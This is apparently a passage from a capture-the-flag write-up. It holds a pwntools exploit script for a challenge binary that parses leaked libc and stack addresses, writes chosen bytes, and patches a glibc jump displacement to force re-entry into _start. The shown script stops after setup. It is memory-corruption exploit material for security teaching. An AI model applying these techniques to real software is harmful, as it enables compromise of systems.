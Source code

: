 > :information_source: **Note:** `_start` is `pop`ing, 16-byte aligning the stack and `push`ing two values. This moves the return address by 0x10 bytes every reentry. A different return address other than plain `_start` could have been used to prevent that.


## Exploit


```python
#!/usr/bin/env -S python3 -u

# [...]

def get_mapping_for(io: tube, lib: str):
    leak = io.recvuntil(lib.encode()).decode()
    leak = leak.rsplit("\n", maxsplit=1)[1]
    return int(leak.split("-", maxsplit=1)[0], 16)

def write_byte(io: tube, addr: int, data: int):
    assert data >= 0 and data <= 255
    io.sendlineafter(b"What address do you desire for your", hex(addr).encode())
    io.sendlineafter(b"And what byte do you wish here?\n", hex(data).encode())

def check_reentry(io: tube):
    assert io.recvuntil(b"I'm a genie in an ELF", timeout=3) != b""

io = start()

# We are presented with the mapping and a stack "leak". Parse it
exe.address = get_mapping_for(io, "/app/challenge")
info(f"challenge base: {exe.address = :x}")
libc.address = get_mapping_for(io, "libc.so.6")
info(f"libc base: {libc.address = :x}")

io.recvuntil(b"My card deck stacks ")
stack_leak = int(io.recvuntil(b" "), 16)
info(f"Got stack address: {stack_leak = :x}")

# Now, we can finally do the writing!

# 1. Reentry
# To reenter main, we want to call main or _start.
# Luckily for us, both are readily available on the stack!
# The strategy is to change a jmp/call displacement so that we
# can add enough to the RSP and just RET to it.
# Problem is: _start is so far away, that we need to add 0x1xx, and there are
# not a lot of opportunities for that here
# Tip: `objdump -mi386:x86-64:intel -d libc.so.6 | less` and then `/add    rsp,0x1[0-9][0-9]`
#
# We target _IO_unbuffer_all which is called as a IO finalizer on exit
# but _after_ the flushing
# In particular, the NULL check in line 780: https://elixir.bootlin.com/glibc/glibc-2.39/source/libio/genops.c#L780
# 9696e:       0f 85 0c ff ff ff       jne    96880 <_IO_cleanup+0xb0>
# This jump displacement is perfect to set up so that we can jump to 0x87480 instead by writing 0x0b into 96971.
# Thus we land in the middle of _IO_proc_open.
# This is not directly on add rsp/ret, but close enough.
# It does a check on r13 (which luckily has a pointer and sets the jump),
# zeros the return value, checks the stack canary (which luckily matches with _IO_unbuffer_all's canary offset)
# adds/pops/rets.
# Instead of only 0x108, we want to add 0x88 more to reach _start
info("Setting up first reentry...")
```